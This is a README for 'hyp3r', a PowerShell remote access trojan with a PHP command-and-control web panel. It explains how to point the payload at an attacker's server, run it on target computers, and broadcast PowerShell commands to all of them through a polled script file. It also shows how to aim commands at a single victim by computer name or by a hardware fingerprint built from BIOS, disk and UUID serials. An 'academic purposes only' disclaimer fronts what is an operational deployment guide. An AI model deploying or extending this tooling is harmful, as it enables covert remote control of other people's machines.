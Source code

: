 # hyp3r
<hr>
### hyp3r is a basic RAT written in powershell.

**DISCLAIMER: THIS PROJECT IS FOR ACADEMIC PURPOSES ONLY. THE DEVELOPERS TAKE NO RESPONSIBILITY FOR ILLEGAL USAGE AND/OR POTENTIAL HARMS.**

<hr>

## Requirements
  - PHP 8.0.2 (might work on older versions as well).
  - apache web server.
  - powershell version 5.1 (might work on older versions as well) installed on the target computer for cmdlets to run.

## Features
  - webGUI.
  - live target status.
  - remote shell execution.
  - multi-target support (the script can handle as many targets as your server can).
  - simple and easy to customize scripts.

## Notes
  - the timezone of both the server and the payload are set to GTB Standard Time so take that into account if you want to modify the inner workings of the script.
  - remember to modify the parameters inside the payload (`http.ps1`) to suit your needs.

## Installation

### 1. Clone this repository

You can use git to clone this repository or download .zip file from GitHub.

```bash
git clone https://github.com/xze3n/hyp3r.git
cd hyp3r/
```

### 2. Configure
  - Copy the contents of the `apache` folder to your webserver's page folder.
  - Edit lines `2`, `3` and `4` inside `http.ps1` as follows: 

        ```powershell
        $verurl = 'http://your_website_url_or_ip/script.txt'
        $url = 'http://your_website_url_or_ip'
        $stop = 'the syntax of your choice to force stop the payload on the target machine'
        ```

  - Save and close the file. The installation is now complete!

## Usage

### 1. Start your webserver.
### 2. Run the powershell payload on the target computer.
### 3. Open `localhost` inside a browser to see the active connections.

### To run commands on the target computer(s) open the file called `script.txt` inside your webserver's page folder and modify its contents
  - Example:

        ```powershell
        [System.Console]::Beep(1000,300)
        ```

  -the syntax above will result in a short *beep* given out by the target
### Notes:
  - The commands or scripts you write inside `script.txt` must be powershell code (obviously).
  - If you have multiple targets that listen to the same server the commands inside `script.txt` will be ran by all of the computers listening.
  - If you want to run a command only on one of the targets you will have to get a little creative:

        ```powershell
        if($env:COMPUTERNAME -eq "TARGET-PC") {
          echo "now it will only be executed by targets with the user TARGET-PC"
        }
        ```
  - If the COMPUTERNAME identifier is way to simple and it brings up problems you can use the scripts unique identifier composed of the biosid hddid and uuid of the target computer
        ```powershell
        $a=Get-WmiObject win32_bios | Format-List SerialNumber | out-string; $id_bios=$a.split(' ')[2].Trim(); #bios id
	      $b=wmic diskdrive get serialnumber; $id_hdd=$b.split('\n')[2].Trim(); #hdd id
	      $c=Get-WmiObject -Class Win32_ComputerSystemProduct | Select-Object -Property UUID | out-string;$id_uuid=$c.split(' ')[64].Trim() #uuid
        $ids=$ids=$id_bios, $id_hdd, $id_uuid; $ids=[system.String]::Join("_", $ids);
        if($ids -eq "UNIQUE_IDENTIFIER") {
          doStuff()
        }
        ```

  - You can get the UNIQUE_IDENTIFIER of a computer from the `data.txt` file inside the webserver's page folder: eg. `CND83492ZZ_69BCTDGFT_760BD1B8-5170-E821-A4C3-1063E5C2E22F`.
